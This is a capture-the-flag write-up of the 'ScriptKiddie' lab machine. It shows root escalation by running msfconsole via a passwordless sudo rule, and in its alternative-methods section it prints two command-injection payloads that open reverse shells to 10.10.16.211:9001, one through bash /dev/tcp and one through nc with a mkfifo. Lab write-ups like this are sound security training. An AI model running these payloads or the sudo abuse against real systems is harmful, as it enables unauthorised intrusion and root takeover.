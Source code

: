# Shell as pwn -> Root

The first things I checked were my groups and sudo permissions:

```bash
pwn@scriptkiddie:~$ id
id
uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
pwn@scriptkiddie:~$ sudo -l
sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

What do you know? In very on-brand fashion, we can run metasploit as root!

We *could* use this to run the apk exploit as root, but that's no fun - we've already used it twice.

Instead, we can use metasploit's in built shell to run commands. I ran `sudo msfconsole -q` (`-q` flag being optional) and then just typed `/bin/bash` to get a root shell :)

![[Pasted image 20210612161953.png]]

That's the box!

## Notes on Alternative Methods

An easier way of 'bypassing' the `cut` command (courtesy of ippsec) was just to match the correct format of the log file, by inserting two rows of arbitrary data before the command:

```bash
kid@scriptkiddie:~/logs$ echo 'whatever whatever ;/bin/bash -c "bash -i >& /dev/tcp/10.10.16.211/9001 0>&1"' >> hackers
```

This gives us another unstable shell that immediately dies:

![[Pasted image 20210612163258.png]]

A nice alternative payload (courtesy of a colleague) would have been:

```bash
kid@scriptkiddie:~/logs$ echo 'whatever whatever ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.211 9001 >/tmp/f' >> hackers
```

This gives us a shell that doesn't immediately die - but it doesn't send any commands either.

![[Pasted image 20210612163616.png]]

![[Pasted image 20210612163639.png]]

I'd be interested to see if there was a good way to get a stable shell this way. I'd also be interested to see if there was a good way of exploiting the command injection in the `searchsploit` field that partially worked early on, but I couldn't get it to work myself.